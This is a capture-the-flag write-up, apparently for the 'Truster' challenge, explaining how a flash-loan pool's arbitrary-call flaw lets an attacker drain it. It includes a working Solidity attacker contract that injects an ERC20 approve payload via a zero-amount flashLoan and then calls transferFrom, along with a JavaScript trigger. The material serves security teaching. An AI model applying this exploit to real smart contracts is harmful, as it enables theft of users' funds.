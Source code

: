 # Challenge 2 — Truster

## Description

The `TrusterLenderPool` contract, offering flash loans of DVT tokens for free, contains the `flashLoan` functions with the arguments:

- `borrowAmount`: the amount of the flash loan.
- `borrower`: the address of the borrower to which the funds will be sent.
- `target`: an address to perform a function call into with a payload defined as the `data` parameter.

At the end of the `flashLoan` function, there is still a check which consists of ensuring that the amount available on the contract at the end of the flash loan is indeed greater than or equal to the amount before the flash loan. This guarantees that the flash loan has been repaid by the borrower.

## Vulnerability

Inside the `flashLoan` function, there is no safety mechanism to know which function is called in the `call` from the loanee contract to repay the loan. Instead, the loanee contract can call whatever function it wants using the `data` argument.

We can then imagine passing the `approve` function of the ERC20 standard here, so that the attacker's address takes possession of all the tokens available in the contract. The arguments of the `approve` function in this case will therefore be:

- `spender`: the attacker's address.
- `amount`: the total pool supply.

Thanks to the `functionCall`, the `TrusterLenderPool` smart contract will be considered as the `msg.sender` when calling the `approve` function.

In order for the transaction to be validated and for the entire function to run correctly, the last verification must be passed concerning the amount available on the contract after the flash loan, which must be greater than or equal to the amount before. But if the amount to borrow, defined by the borrower is 0, then there is nothing to repay and the borrower is not obliged to make any repayment.


## How to exploit?

1. Create a `TrusterAttacker` contract that calls the `flashLoan` function from the `TrusterLenderPool` pool.

	```solidity
	contract TrusterAttacker {
	    using SafeMath for uint256;
	    using Address for address payable;

	    constructor() public {}

	    function attack(IERC20 token, ITrusterLenderPool pool, address attackerEOA)
	        public
	    {
	        uint256 poolBalance = token.balanceOf(address(pool));
	        // IERC20::approve(address spender, uint256 amount)
	        // flashloan executes "target.call(data);", approve our contract to withdraw all liquidity
	        bytes memory approvePayload = abi.encodeWithSignature("approve(address,uint256)", address(this), poolBalance);
	        pool.flashLoan(0, attackerEOA, address(token), approvePayload);

	        // once approved, use transferFrom to withdraw all pool liquidity
	        token.transferFrom(address(pool), attackerEOA, poolBalance);
	    }
	}
	```

2. Pass the following arguments for the `flashLoan` call:

	-  `amount`: 0.
	- `borrower`: `TrusterAttacker` address.
	- `target`: DVT token address.
	- `data`: encoded `approve` function where the attacker is the `spender` and the pool’s balance is the `amount`

As we can see, the `attack` function here uses the `approve` function to give the right to the `TrusterAttacker` contract to transfer funds from the `TrusterLenderPool` pool on behalf of the pool. Thus, after this step, the ERC20 `transferFrom` function is used to directly transfer all the funds from the `TrusterLenderPool` pool to the `TrusterAttacker` contract.

3. Call the `attack` function of the `TrusterAttacker` contract:
	```javascript
	await this.attacker.attack(this.token.address, this.pool.address, attacker);
	```

4. All the funds of the `TrusterLenderPool` pool are transferred from the pool to the attacker address.
